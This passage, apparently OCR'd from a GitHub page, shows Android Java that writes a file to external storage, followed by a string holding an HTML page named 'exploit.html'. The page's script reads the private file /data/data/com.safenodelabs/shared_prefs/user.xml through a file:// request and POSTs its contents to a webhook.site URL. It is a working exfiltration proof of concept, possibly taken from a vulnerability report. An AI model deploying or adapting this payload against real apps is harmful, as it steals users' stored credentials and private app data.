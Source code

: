             if (externalStorageDir.canWrite()) {
                // Define the path where the file will be saved (root of the external storage)
                File file = new File(externalStorageDir, fileName);

                // Open a file output stream, creating the file if it doesn't exist
                fos = new FileOutputStream(file);
                // Write the file content
                fos.write(fileContent.getBytes());
                Log.d("FileHelper", "File saved to: " + file.getAbsolutePath());
            } else {
                Log.e("FileHelper", "External storage is not writable or does not exist.");
            }
        } catch (IOException e) {
            e.printStackTrace();
        } finally {
            if (fos != null) {
                try {
                    // Close the file output stream
                    fos.close();
                } catch (IOException e) {
                    e.printStackTrace();
                }
            }
        }
    }
     ```

    ```js
     String fileName = "exploit.html";
    String fileContent = "<!DOCTYPE html>\n" +
            "<html>\n" +
            "<body>\n" +
            "\n" +
            "<h2>Using the XMLHttpRequest Object</h2>\n" +
            "\n" +
            "\n" +
            "<script>\n" +
            "var xhr = new XMLHttpRequest();\n" +
            "xhr.onreadystatechange = function() {\n" +
            " if (xhr.readyState == XMLHttpRequest.DONE) {console.log(xhr.responseText);\n" +
            "var xhr2 = new XMLHttpRequest();\n" +
            "xhr2.open(\"POST\",\"https://webhook.site/3fe5acc2-a507-45dd-b928-c07c30dbe1d8\",true);\n" +
            "\n" +
            "xhr2.send(xhr.responseText);\n" +
            "}\n" +
            "}\n" +
            "xhr.open('GET', 'file:///data/data/com.safenodelabs/shared_prefs/user.xml', true);\n" +
            "xhr.send(null);\n" +
            "\n" +
            "</script>\n" +
            "\n" +
            "</body>\n" +
            "</html>\n";
